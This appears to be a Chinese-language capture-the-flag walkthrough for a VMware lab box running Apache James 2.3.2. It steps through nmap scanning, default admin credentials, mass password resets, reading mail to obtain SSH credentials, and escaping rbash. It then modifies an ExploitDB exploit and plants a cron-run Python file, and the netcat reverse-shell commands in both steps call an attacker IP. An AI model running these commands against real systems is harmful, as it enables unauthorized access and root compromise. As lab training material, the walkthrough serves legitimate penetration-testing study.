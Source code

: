 
# mynew
Apache James Server 2.3.2 - Remote Command Execution
rbash逃逸
corn提权


# 
VMware双击打开，默认nat模式即可！

1、nmap 192.168.253.0/24 -sP
MAC Address: 00:50:56:E1:B2:64 (VMware)
Nmap scan report for localhost (192.168.253.185)


2、nmap 192.168.253.185 -p- -A
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2

nmap发现了22（ssh）、25（smtp）、80（http）、110（pop3）、119（nntp）、4555（admin）端口是开放的，4555还是james-admin JAMES Remote Admin 2.3.2，存在漏洞：

Apache James Server 2.3.2 - Remote Command Execution：
https://www.exploit-db.com/exploits/35513


3、JAMES Remote Admin 2.3.2匿名枚举
James Remote Administration的默认用户名密码是root/root


nc 192.168.253.185 4555
root
root
输入成功登录，开始枚举！


listusers   ---显示现有帐户
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin

发现五个账号信息！还能执行setpassword [username] [password]  重置密码
全部修改为dayu！

setpassword james dayu
setpassword thomas dayu
setpassword john dayu
setpassword mindy dayu
setpassword mailadmin dayu

现在有了pop3的用户名密码，进去看看！


4、JAMES pop3d 2.3.2渗透

telnet 192.168.253.185 110
user mindy
pass dayu
成功登录！

list 
retr 1

------------------
Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.
------------------
在第二封邮件发现信息，可以看到James从管理员帐户向Mindy 发送了邮件，并共享了他的SSH登录凭据，在mindy用户邮件中看到了账号密码

用户名密码：
username: mindy
pass: P@55W0rd1!2@


5、内部信息枚举

ssh mindy@192.168.253.185
P@55W0rd1!2@

发现是一个rbash（限制型bash），是平时所谓的 restricted shell的一种，也是最常见的 restricted shell（rbash、ksh、rsh等）
rbash逃逸大全：https://xz.aliyun.com/t/7642


james:x:1000:1000:james:/home/james/:/bin/bash
mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash

可以看到/bin/rbash的shell，限制很大！

ssh mindy@192.168.253.185 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/sh\")'"


6、JAMES Remote Admin 2.3.2 webshell

locate linux/remote/35513.py
cp /usr/share/exploitdb/exploits/linux/remote/35513.py .

打开payload：
19行改动下：nc -e /bin/sh 192.168.253.138 1234

nc -vlp 1234
ssh mindy@192.168.253.185
P@55W0rd1!2@



7、提权

前面能进入mindy用户是通过James那里得到的提示，james发了邮件给mindy，这边我查看下james运行过程：
ps aux | grep james

root       411  0.0  0.1   2332   600 ?        Ss   Mar29   0:00 /bin/sh /opt/james-2.3.2/bin/run.sh

find  / -writable 2>/dev/null


echo 'import os; os.system("/bin/nc 192.168.253.138 6666 -e /bin/bash")' > /opt/tmp.py

echo "os.system('/bin/nc -e /bin/bash 192.168.253.138 6666')" >> tmp.py




拓展小技巧：

xargs：
https://www.runoob.com/linux/linux-comm-xargs.html

find / -type f | xargs grep tmp.py
/var/spool/cron/crontabs/root:*/3 * * * * python /opt/tmp.py

可看到每3分钟执行一次！











































































































































